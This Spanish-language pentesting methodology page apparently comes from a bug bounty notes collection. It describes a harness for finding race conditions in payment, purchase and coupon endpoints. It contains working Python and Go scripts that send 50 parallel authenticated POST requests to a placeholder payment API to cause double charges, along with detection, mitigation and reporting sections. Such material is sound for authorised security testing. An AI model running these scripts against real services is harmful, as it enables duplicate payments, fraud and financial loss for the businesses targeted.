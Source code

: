 # Harness de Pruebas (Go/Python)

## Resumen

**Qué es:** Un *harness* de pruebas permite automatizar el lanzamiento de peticiones concurrentes/paralelas para descubrir condiciones de carrera, fallos lógicos y abusos de negocio en endpoints críticos, usando código ligero y personalizable en Go o Python.
**Por qué importa:** Permite detectar errores y duplicidad no visibles en test manual, reproducir escenarios de abuso, lanzar ráfagas de requests y automatizar POCs reproducibles para bug bounty o pentesting profesional.
**Cuándo aplicarlo:** Siempre que se requiera validar lógica de concurrencia (pagos, compras, registro, transferencias) o reconstruir/explotar condiciones de carrera desde CI/CD o scripts personales.

---

## Contexto

**Supuestos:**

- Acceso a endpoints HTTP(s) o gRPC.
- Capacidad de ejecutar scripts locales (Python 3.x, Go 1.14+).
- Endpoints abiertos a fuzzing/burst concurrente: POST/PUT pago, compra, transferencia, registro, canje de cupón/código.
- Objetivo de reproducibilidad y personalización/adaptación al flujo del cliente.

**Límites:**

- No cubre harnesses para pruebas unitarias de lógica interna (típico de testing profesional, no bug bounty).
- Foco en ataques black/grey box, con adaptabilidad al endpoint real.

---

## Metodología

1. **Identificar endpoint crítico y estructura de payload/headers.**
2. **Definir número de threads/goroutines, datos paralelos (payloads, tokens, IDs).**
3. **Armar script en Go o Python para lanzar N requests simultáneas.**
4. **Recopilar y analizar respuestas, logs y colisiones/duplicidades.**
5. **Automatizar comparación de estados antes y después del ataque.**
6. **Ajustar payload o parámetro según respuesta detectada.**

**Checklist mínima:**

- Requests paralelizados y parametrizables.
- Recolecta respuestas y errores HTTP.
- Registra tiempo, cantidad de aciertos y errores.
- Fácil edición para cambiar URL, body y headers.

---

## PoC Python: Harness Multithread

```python
import requests
import threading

endpoint = "https://victima.com/api/pago"
payload = {"usuario":"victima", "importe": 100}
headers = {"Authorization": "Bearer TU_TOKEN"}

def atacar():
    r = requests.post(endpoint, json=payload, headers=headers)
    print(r.status_code, r.text)

threads = [threading.Thread(target=atacar) for _ in range(50)]
for t in threads: t.start()
for t in threads: t.join()
```

- **Resultado esperado:** Ver si el pago se realiza varias veces, errores o inconsistencias de estado tras ataque.

---

## PoC Go: Harness con Goroutines

```go
package main

import (
    "bytes"
    "fmt"
    "net/http"
    "sync"
)

func main() {
    endpoint := "https://victima.com/api/pago"
    payload := []byte(`{"usuario": "victima", "importe": 100}`)
    var wg sync.WaitGroup

    for i := 0; i < 50; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            req, _ := http.NewRequest("POST", endpoint, bytes.NewBuffer(payload))
            req.Header.Set("Content-Type", "application/json")
            req.Header.Set("Authorization", "Bearer TU_TOKEN")
            resp, err := http.DefaultClient.Do(req)
            if err != nil {
                fmt.Println("error:", err)
                return
            }
            fmt.Println(resp.Status)
            resp.Body.Close()
        }()
    }
    wg.Wait()
}
```

- **Resultado esperado:** Duplicidad de pagos o estado inconsistente tras corrida.

---

## Opciones Avanzadas

- Parametrizar IDs/tokens (lectura desde lista de usuarios/códigos).
- Medir tiempo de respuesta con timestamps.
- Guardar todas las respuestas en archivo/log para análisis.
- Opcional: cargar cookies/sesión desde fichero.
- Automatizar retries/fallback ante errores específicos.

---

## Explotación y Automatización

- Lanzar el harness con scripts customizados en CI/CD tras cada cambio en backend crítico.
- Usar para validar hotfix o remediaciones de race conditions.
- Integrar con Burp Collaborator para verificar ejecución/impacto en tiempo real.

---

## Impacto

- **Race detectado:** Multipago, registro duplicado, canje indebido, transferencia doble.
- **Pruebas reproducibles:** Evidencias objetivas para reporte y discusión.
- **Eficiencia:** Detección de fallos rápidamente en alta concurrencia.

---

## Detección

- Revisar logs de respuestas: ocurrencias de 200/201/409.
- Auditar base de datos tras ejecución.
- Buscar inconsistencias en recursos afectados.

---

## Mitigación

- Atomicidad y locks en backend.
- Idempotencia real de endpoints.
- Auditar respuestas inconsistentes y adaptar harness.

---

## Errores Comunes

- Olvidar join de threads/goroutines (resultados incompletos).
- No capturar errores HTTP.
- Lanzar más requests de las que una API puede procesar sin rate limiting (lockout tras detección de abuso).

---

## Reporte

**Título:** Harness automatizado permite reproducir y explotar condiciones de carrera en endpoint crítico
**Impacto:** Multipago, fraude, pérdidas financieras y abuso lógico reproducible
**Pasos:**

1. Configurar script y lanzar N requests paralelas contra endpoint sensible
2. Validar respuestas/estado/errores tras la prueba
3. Documentar resultados/impacto en logs, BD y negocio
